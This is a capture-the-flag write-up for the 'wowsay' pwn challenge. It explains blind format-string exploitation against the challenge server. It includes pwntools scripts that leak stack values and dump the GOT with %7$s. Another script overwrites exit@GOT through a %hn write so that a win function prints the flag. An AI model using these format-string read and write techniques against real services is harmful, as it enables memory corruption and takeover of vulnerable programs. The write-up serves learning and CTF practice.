

# wowsay - blind format strings


## TL;DR

- The only thing we are given is the challenge description, and a remote server to connect to.
- Format string your way into finding out ``win()`` function and GOT table addresses, and overwrite one of the entries to print the flag.

## Challenge Description

> Cowsay is so out... Old & boring. Which is why I made wowsay!

Category: **pwn**

## Exploitation
### Trial and error

- When we connect to the remote challenge we only see a fancy banner and a prompt asking for input. As soon as we send something they print it back to us, so the first thing we try is format string. There is a limit of 100 bytes so we can create big payloads. 
- We can leak some qwords from the stack with a loop:

```python
for i in range(30):
        io = remote("18.212.136.134", 1337)
        payload = f'%{i}$p'.encode()
        payload = payload.ljust(0x10, b'\x00')
        io.send(payload)
```


- One of the approaches I tried at this point was overwriting the first entry of `fini_array`, because there was a pointer to this list inside the stack, but the write was not working so I had to leave this path.

- We can see at position 23 that there is no PIE in the challenge, so I compiled a binary locally to see the address of the GOT entries. 
- The address ``0x401352`` was a bit too far to be the main function, so I started scanning the binary from ``0x401100`` and we found something close to ``0x401190``


- The interesting part of these bytes is around `0x4011c6`, where we see something like `UH`. Looking at the code it looks like a function prologue:
Added to this we see at 0x4011b0 a byte `\xc3` which corresponds to `ret` instruction, so this part of the code is definitely user defined functions.


> This writeup has been made after the CTF is over, so I no longer have access to the remote server, and there are parts of the exploitation process that I can't show because of this.

- We dumped .data section, from ``0x402000``and found out there were strings like `wowsay/flag.txt`, or `could not read the flag` that gives us the clue of a win function.

- We used the next code to dump the GOT table

```python

for i in range(0, 0x50, 8):
        io = remote("18.212.136.134", 1337)

        start_addr = 0x404000

        payload = b'%7$s'
        payload = payload.ljust(8, b'X')
        payload += flat(start_addr + i) 
        payload = payload.ljust(0x20, b'\x00')

        io.sendlineafter(b'say: ', payload)   

        io.recvuntil(b'Wow: ')

        try:
                leak = io.recvline(timeout=1).split(b'X' *4)[0]
                addr = hex(u64(leak.ljust(8, b'\x00')))
                print(f"[+] 0x{start_addr + i:x} => {addr}") 

        except:
                continue

        io.close()
```

Payload:

- `%7$s`: Print the contents of the address at 7th position on the stack
- `XXXX`: Padding to 8 bytes to fill the current stack position
- `start_addr + i`: The address where we want to read from
- `padding until 0x20`: To keep a clean payload

This payload will read from the address at 7th position, and because of how the payload is sent, the 7th position is our `start_addr + i`. This is the method we will use to write data to an arbitrary address.


- Now that we can see the GOT entries we will try to write on top of them and see how the program behaves. We will write 0x11c6 bytes using `%hn` printf formatting in these addresses.

### Getting the flag


```python
def arb_write():
    io = remote("18.212.136.134", 1337)

    # 000 010 020 030 040 048 050

    payload = f'%{0x11c6}c%8$hn'.encode()
    payload = payload.ljust(0x10, b'\x41')
    payload += flat(0x404048) + flat(0x0)
 
    io.sendlineafter(b'say: ', payload)

    io.interactive()

```

Payload:
- `%4550c%8%hn`: 
        - `%4550c`: This part will print 4550 characters (spaces) to stdout.
        - `%8$hn`: Write the number of bytes we have printed until now into the address at 8th position. `%n` writes 4 bytes, `%hn` writes 2 bytes and `%hhn` writes 1 byte.
- Padding of 16 bytes to make sure the payload works using 8th position.
- The address where we want to write.

After trying all of them the first one that worked was ``0x404048``, which is probably `exit@GOT`.



### Flag
CACI{w0ws4y_b3tt3r_th4n_c0ws4y_1_pr0m1s3}

### Solvers
- [leak_got.py](assets/leak_got.py)
- [leak_stack.py](assets/leak_stack.py)
- [leak_win.py](assets/leak_win.py)
- [arb_write.py](assets/arb_write.py)
